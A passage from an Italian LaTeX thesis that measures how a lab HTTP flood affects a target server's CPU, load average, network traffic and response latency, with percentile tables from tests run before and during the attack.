Andando a visionare i grafici prodotti da Glances si evince come, non appena inizia l'attacco HTTP flood, nel server bersaglio si verifica un elevato aumento della CPU usata dall'utente, mentre la CPU usata dal sistema diminuisce come illustrato nella Figura~\ref{grafico_cpu}. Ciò avviene poiché i processi che gestiscono le richieste HTTP si trovano a dover elaborare un numero elevato di richieste concorrenti, incrementando significativamente il calcolo computazionale. Come visibile dal grafico durante l'attacco la CPU utilizzata dall'utente come quella utilizzata dal sistema oscillano entrambe in un intervallo compreso tra 40\% e il 60\%, portando l'utilizzo complessivo della CPU a raggiungere uno stato critico secondo le soglie di attenzione descritte nella Tabella~\ref{valori_cpu}. 
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{tesi_stile/img/Cpu.png}
    \caption{Utilizzo della CPU durante l'attacco HTTP flood.}
    \label{grafico_cpu}
\end{figure}
Analogamente il carico medio del server bersaglio aumenta non appena inizia l'attacco HTTP flood. In particolare,  come si evince dal grafico illustrato in Figura~\ref{grafico_load}, la linea che ha un picco significativo istantaneo è quella relativa al carico medio calcolato su intervallo di 1 minuto ed è anche la stessa che appena l'attacco termina decresce significativamente. Mentre le linee relative al carico medio calcolato su intervalli di 5 e 15 minuti sono meno sensibili a cambiamenti del carico istantanei crescendo e decrescendo più lentamente sia quando l'attacco inizia e sia quando l'attacco finisce. In particolare il carico medio calcolato su un intervallo di 5 minuti raggiunge nel suo massimo un valore maggiore a 6, e poiché il server bersaglio ha un numero di core pari a 4 il valore raggiunto dal carico medio risulta essere in uno stato di ``WARNING'' seguendo la legenda nella Tabella~\ref{valori_load}. Utilizzando la stessa legenda per interpretare i valori assunti dalla linea che rappresenta il carico medio calcolato su intervallo di 15 minuti si trae la conclusione che la durata dell'attacco non è sufficiente a stressare il carico del server bersaglio nel lungo periodo.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.75\linewidth]{tesi_stile/img/load.png}
    \caption{Carico medio durante l'attacco HTTP flood.}
    \label{grafico_load}
\end{figure}
Lanciando però lo stesso attacco con una durata di 15 minuti anche il carico medio calcolato su un intervallo di 15 minuti, come mostrato nella Figura~\ref{grafico_load_15_min}, aumenta arrivando ad un valore di 6, assumendo uno stato di ``WARNING'' secondo i riferimenti illustrati nella Tabella~\ref{valori_load}.
\begin{figure}[H]
    \centering
    \includegraphics[width=0.75\linewidth]{tesi_stile/img/load_15_min.png}
    \caption{Carico medio durante l'attacco HTTP flood con durata 15 minuti.}
    \label{grafico_load_15_min}
\end{figure}
Infine è stato valutato il traffico di rete sull'interfaccia che il server bersaglio utilizza per la comunicazione con i bot. Osservando il grafico illustrato nella Figura~\ref{grafico_network}, il quale esprime i valori in Bytes/s, non appena inizia l'attacco si nota un leggero aumento del traffico in ingresso imputabile ad un arrivo massivo di richieste HTTP GET. D'altro canto si nota un aumento considerevole del traffico in uscita riconducibile al server bersaglio che risponde all'enorme quantità di richieste inviategli dai bot. In particolare il traffico in ingresso rimane sotto la soglia dei 2 milioni di Bytes/s (2 MB/s) mentre il traffico in uscita raggiunge un picco maggiore a 24 milioni di Bytes/s (24 MB/s). Questa marcata differenza tra traffico in ingresso e in uscita è dovuta al fatto che il server risponde con la sua pagina HTML generando pacchetti di rete molto più pesanti di quelli contenenti richieste HTTP GET.
\begin{figure}[H]
    \centering
    \includegraphics[width=0.75\linewidth]{tesi_stile/img/network.png}
    \caption{Utilizzo della rete nel server bersaglio durante l'attacco HTTP flood.}
    \label{grafico_network}
\end{figure}
\subsection{Analisi della disponibilità del server bersaglio}
La compromissione o l'interruzione della disponibilità di un servizio bersaglio è l'obiettivo principale di attacchi come l'HTTP flood. In informatica la disponibilità è definita come l'abilità di un sistema di soddisfare una funzione richiesta in un momento specifico \cite{availability}. 
La formula che permette di valutare la disponibilità di un servizio utilizzando il tempo di funzionamento (Uptime) e di interruzione (Downtime) dello stesso è la seguente \cite{formula_availability}:
\begin{equation} \label{formula1}
Availability = \frac{T_\text{Up}}{T_\text{Up}+T_\text{Down}}
\end{equation}
L'altra formula che permette di valutare la disponibilità di un servizio utilizza la totalità delle richieste che un server riceve e la quantità di richieste che esso riesce a soddisfare ed è la seguente \cite{formula_availability}:
%esempio equazione
\begin{equation} \label{formula2}
Availability = \frac{R_\text{Good}}{R_\text{TOT}}
\end{equation}
L'utilizzo dell'ultima metrica non tiene però conto del tempo che il server impiega per rispondere alle richieste, per questo motivo per valutare la disponibilità del server bersaglio durante l'attacco HTTP flood sono state utilizzate le percezioni degli utenti sui ritardi nelle risposte di un server web \cite{soglie_attenzione}:
\begin{itemize}
    \item \textbf{0.1s}: l'utente ha la percezione che il sistema stia reagendo istantaneamente ai suoi comandi;
    \item \textbf{1s}: è approssimativamente il limite affinché il flusso di pensieri dell'utente rimanga ininterrotto, nonostante questo l'utente nota il ritardo e perde la percezione di risposta istantanea da parte del server con il quale sta interagendo;
    \item \textbf{10s}: è il limite affinché gli utenti mantengano l'attenzione. Superato questo limite l'utente preferisce abbandonare l'operazione corrente per concentrarsi su altro.
\end{itemize}

La misurazione di un ritardo in un sistema è chiamata latenza. Quest'ultima è la quantità di tempo necessaria affinché i dati si spostino da un punto all'altro attraverso una rete. In un contesto come quello del laboratorio realizzato, una maggiore latenza nelle risposte del server bersaglio si traduce in un carico eccessivo di quest'ultimo. Per effettuare le misurazioni della latenza nelle risposte del server bersaglio è stato utilizzato il software Vegeta illustrato nella Sezione~\ref{tool_monitoraggio}. Sono stati due effettuati due test per inviare richieste al server, queste sono state create con un \emph{timeout} di 10 secondi per rendere le risposte del server non valide dopo il superamento di tale soglia di ritardo. Questo limite è stato scelto sulla base delle soglie di attenzione dell'utente riportate nell'elenco puntato appena esposto. La durata di entrambi i test è stata impostata a 240 secondi e con un numero di richieste da inviare per secondo pari a 2500. Il primo test è stato effettuato prima dell'attacco HTTP flood. Durante la prova sono state inviate 600000 richieste tutte soddisfatte entro il timeout di 10 secondi, quindi il test ha riportato una percentuale di successo pari al 100\%, calcolata tramite la formula~\ref{formula2}. Inoltre sono state prodotte statistiche specifiche sulla latenza nelle risposte del server mediante l’analisi dei percentili, i valori osservati sono riportati nella Tabella~\ref{latenza_no_attacco}. Questi valori mostrano come il server mediamente ha un tempo di risposta di gran lunga inferiore agli 0.1 secondi rendendo l'esperienza dell'utente ottimale.
\begin{table}[H]
        \centering
        \begin{tabular}{c c}
        \hline
        \textbf{Metrica} & \textbf{Valore} \\
        \hline
        Latenza media & 8.28 ms \\
        Latenza minima & $ 140.67$ $\mu s$ \\
        $50^\circ$ percentile (p50) &  4.611 ms\\
        $90^\circ$ percentile (p90) & 18.353 ms \\
        $95^\circ$ percentile (p95) & 27.527 ms \\
        $99^\circ$ percentile (p99) & 60.982 ms \\
        Latenza massima  & 351.315 ms \\
        \hline
        \end{tabular}
        \caption{Latenza nelle risposte del server bersaglio in condizioni normali.}
        \label{latenza_no_attacco}
\end{table}
Il secondo test è stato condotto durante l'attacco HTTP flood. Nel corso della prova sono state inviate 600000 richieste, di queste 10508 hanno ricevuto una risposta in più di 10 secondi quindi sono state considerate non valide. Utilizzando la formula~\ref{formula2} si ottiene una percentuale di successo pari al 98.25\%. Anche in questo caso sono state prodotte delle statistiche dettagliate sulla latenza nelle risposte del server mediante l'analisi dei percentili, i valori ottenuti sono riportati nella Tabella~\ref{latenza_attacco}. Analizzando i valori emerge un notevolmente aumento di quest'ultimi rispetto al test precedente in cui il server bersaglio era in condizioni normali. Si può osservare come mediamente il server risponde in un tempo più o meno unitario. In particolar modo il 50\% delle volte il server risponde con un tempo maggiore ai 678.757 millisecondi arrivando fino ai casi peggiori in cui risponde con un tempo maggiore ai 10 secondi. Tutto ciò si traduce in una disponibilità del server degradata durante l'attacco HTTP flood.
\begin{table}[H]
        \centering
        \begin{tabular}{c c}
        \hline
        \textbf{Metrica} & \textbf{Valore} \\
        \hline
        Latenza media & 1.059 s \\
        Latenza minima & $ 165.121$ $\mu s$ \\
        $50^\circ$ percentile (p50) & 678.757 ms\\
        $90^\circ$ percentile (p90) & 2.07 s \\
        $95^\circ$ percentile (p95) & 3.403 s \\
        $99^\circ$ percentile (p99) & 10.003 s \\
        Latenza massima  & 11.272 s \\
        \hline
        \end{tabular}
        \caption{Latenza nelle risposte del server bersaglio durante l'attacco HTTP flood.}
        \label{latenza_attacco}
\end{table}


 
 





    
